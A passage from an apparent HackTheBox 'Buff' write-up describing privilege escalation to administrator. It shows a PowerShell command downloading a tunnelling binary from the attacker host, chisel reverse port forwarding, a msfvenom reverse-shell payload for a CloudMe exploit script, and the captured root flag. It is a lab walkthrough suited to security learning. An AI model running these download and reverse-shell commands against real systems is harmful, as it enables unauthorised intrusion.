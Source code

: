 On our kali we run `chisel` in server mode.

    :::text
    ./chisel_1.6.0_linux_amd64 server -p 9001 -reverse

Using our limited shell we download our `chisel` binary on the box and run it as
client on port `8888` (remember this strange open port on the nmap scan?) as
CloudMe is also running on port 8888 (as stated on the exploit `44770.py`).

    :::text
    C:\xampp\htdocs\gym\upload> powershell -exec bypass -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24:8080/chisel.exe', '.\chisel.exe')"
    C:\xampp\htdocs\gym\upload> .\chisel.exe client 10.10.14.24:9001 R:8888:localhost:8888

The exploit `44770.py` also told us to generate a new shellcode using
`msfvenom`.

    :::text
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f c

We update the script with our shell code, configure the `metasploit` handler and
run it as well as the exploit script (with `python 44470.py`) . We got a shell as `administrator` and can
get the root flag.


    :::text
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.24:4444
    [*] Command shell session 1 opened (10.10.14.24:4444 -> 10.10.10.198:53234) at 2020-07-25 12:07:33 -0400

    whoami
    whoami
    buff\administrator

    C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
    type C:\Users\Administrator\Desktop\root.txt
    4ea57b2b8df4db2ea72531bcc50c5a86

# Wrapping up

This box was really quick as it only require to exploit two CVE. The pivoting
technique was an interesting complication for an easy HTB machine.


